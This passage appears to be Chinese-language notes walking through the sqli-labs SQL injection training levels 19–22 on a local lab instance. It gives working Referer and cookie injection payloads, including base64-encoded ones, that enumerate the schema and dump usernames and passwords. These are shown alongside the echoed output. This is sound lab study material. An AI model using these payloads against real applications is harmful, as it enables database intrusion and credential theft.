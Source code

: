 输入admin和admin 回显：
Your IP ADDRESS is: 127.0.0.1
Your Referer is: http://localhost/sqli-labs-master/less-19/?id=1
那这里就要想到是不是和Referer有关了 和uagent同理 

------

## less-20

头部cookie注入 注入点是uname后调用查询数据库的地方

```mysql
Cookie: uname=' union select 1,2,(select group_concat(username,'-',password) from users )#
```

------

## less-21

头部cookie注入 是base64型的注入
登录admin admin 回显：uname= YWRtaW4=  很明显 是经过base64编码了 找到闭合方式为 ') 判断列数为3 开始注入

```mysql
Cookie: uname=') union select 1,2,database() #
Cookie: uname=JykgdW5pb24gc2VsZWN0IDEsMixkYXRhYmFzZSgpICM=
回显:>Your Password:security</font></b><br>Your ID:1
```

```mysql
Cookie: uname:') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
Cookie: uname=JykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpICM=
回显:Your Login name:2<br><font color= "grey" font size="5">Your Password:emails,referers,uagents,users</font></b><br>Your ID:1
```

```mysql
Cookie: uname:') union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
Cookie: uname=JykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfc2NoZW1hPWRhdGFiYXNlKCkgYW5kIHRhYmxlX25hbWU9J3VzZXJzJyAj
回显:Your Password:id,username,password
```

最后爆数据

------

## less-22

基于头部cookie的注入 闭合方式" base64加密 （为了方便 下面的payload全都用明文显示）

```mysql
" or 1=1#
" or 1=2#
找到闭合方式
```
